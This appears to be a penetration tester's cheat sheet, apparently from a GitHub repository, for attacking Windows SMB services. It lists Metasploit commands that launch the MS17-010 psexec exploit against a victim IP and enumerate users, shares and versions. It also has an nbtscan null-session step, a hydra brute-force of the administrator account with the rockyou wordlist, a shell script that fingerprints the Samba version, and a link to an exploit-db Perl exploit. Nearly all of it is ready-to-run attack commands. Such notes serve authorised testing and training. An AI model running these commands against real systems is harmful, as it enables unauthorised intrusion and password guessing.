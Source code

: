 ```
use exploit/windows/smb/ms17_010_psexec
set rhosts [victim_ip]
run
```
    
## msfconsole
  - set rhosts 192.168.55.248
  - use auxiliary/scanner/smb/smb_enumusers
    - run
  - use auxiliary/scanner/smb/smb_enumshares
    - run
  - use auxiliary/scanner/smb/smb_version

## null_session
- null session and extract information
- nbtscan -r [victim_ip]

## Bruteforce
- hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 1 [victim_ip] smb

## Smb_version_checker 
```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1
```

## SMB_perl_script
- https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/7.pl

-------------------------------------------------------------------------------------------------------------------------------------
# Redis:

--------------------------------------------------------------------------------------------------------------------------------

